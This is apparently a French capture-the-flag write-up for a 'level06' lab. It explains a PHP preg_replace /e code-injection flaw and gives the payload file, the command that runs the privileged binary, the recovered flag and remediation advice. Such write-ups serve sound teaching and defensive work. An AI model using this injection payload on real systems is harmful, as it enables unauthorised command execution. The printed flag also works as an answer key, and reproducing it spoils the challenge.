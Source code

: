 # Rapport de Vulnérabilité : Exécution de commande via injection dans une évaluation de regex en PHP

## Description

Dans ce niveau, un binaire exécutable appartenant à `flag06` lit un fichier contenant une expression spéciale, puis le passe à un script PHP (`level06.php`) vulnérable. Ce script utilise une vieille fonction de **regex avec évaluation de code (`preg_replace /e`)**, qui permet l’exécution arbitraire de code PHP. En injectant une expression bien formée, il est possible de faire exécuter une commande système comme `getflag`.

## Comment Exploiter la Faille

### Étape 1 : Analyse du script PHP

Fichier `/home/user/level06/level06.php` :

```php
function y($m) {
  $m = preg_replace("/\./", " x ", $m);
  $m = preg_replace("/@/", " y", $m);
  return $m;
}

function x($y, $z) {
  $a = file_get_contents($y);
  $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
  $a = preg_replace("/\[/", "(", $a);
  $a = preg_replace("/\]/", ")", $a);
  return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
```

La ligne vulnérable est :

```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

L’option `/e` dans `preg_replace` exécute le résultat du remplacement comme du **code PHP**. Cela permet d’injecter et d’exécuter du code PHP via le contenu du fichier passé en paramètre.

### Étape 2 : Création du fichier d’injection

On crée un fichier dans `/tmp` avec le contenu suivant :

```bash
echo '[x ${`getflag`};]' > /tmp/playload
```

* `${`getflag`}` est une syntaxe PHP valide permettant d’exécuter une commande système
* L’évaluation via `/e` va transformer cette ligne en un appel effectif à `getflag`

### Étape 3 : Exécution du binaire

Le binaire `level06` exécute le script PHP avec les droits de `flag06`. Il suffit de le lancer en lui donnant notre fichier en argument :

```bash
./level06 /tmp/playload
```

### Étape 4 : Récupération du flag

Le flag est affiché dans la sortie :

```
wiok45aaoguiboiki2tuin6ub
```

---

## Comment Résoudre la Faille

Pour corriger cette vulnérabilité :

* **Ne jamais utiliser l’option `/e` dans `preg_replace`** : Elle est obsolète et dangereuse (supprimée en PHP 7).
* **Utiliser des alternatives sûres** : Par exemple, `preg_replace_callback()` avec une fonction anonyme bien contrôlée.
* **Éviter toute évaluation dynamique** de contenu externe (fichier, entrée utilisateur…).
* **Séparer le traitement logique des entrées utilisateur** du reste de l’application.

## Conclusion

Ce niveau illustre une faille classique d’**exécution de code via une expression régulière mal sécurisée**. L’utilisation de fonctionnalités obsolètes comme `/e` dans `preg_replace` ouvre la voie à l'exécution arbitraire de commandes. C’est un excellent exemple des risques liés à une mauvaise gestion des entrées utilisateur dans des langages dynamiques comme PHP.

---
